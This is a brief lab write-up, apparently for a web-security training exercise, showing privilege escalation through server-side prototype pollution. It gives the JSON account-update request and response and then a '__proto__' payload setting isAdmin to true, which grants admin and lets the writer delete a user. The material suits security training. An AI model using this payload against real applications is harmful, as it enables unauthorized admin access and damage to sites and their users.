 # Privilege escalation via server-side prototype pollution
First, login to account. From here, update user options to see a full JSON object be sent, and updated JSON object be sent back.
```json
{
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "sessionId": "NfCNYaOHtXqjphXqDgiibV6vjiLJ4ogo",
}
```
To this, server responds with 
```json
{
    "username": "wiener",
    "firstname": "Peter",
    "lastname": "Wiener",
    "address_line_1": "Wiener HQ",
    "address_line_2": "One Wiener Way",
    "city": "Wienerville",
    "postcode": "BU1 1RP",
    "country": "UK",
    "isAdmin": false,
}
```
We can then try to inject
```json
{
    [...]
    "__proto__" : {
        "isAdmin" : true
    }
}
```
And we get admin. Now we delete user Carlos and win. 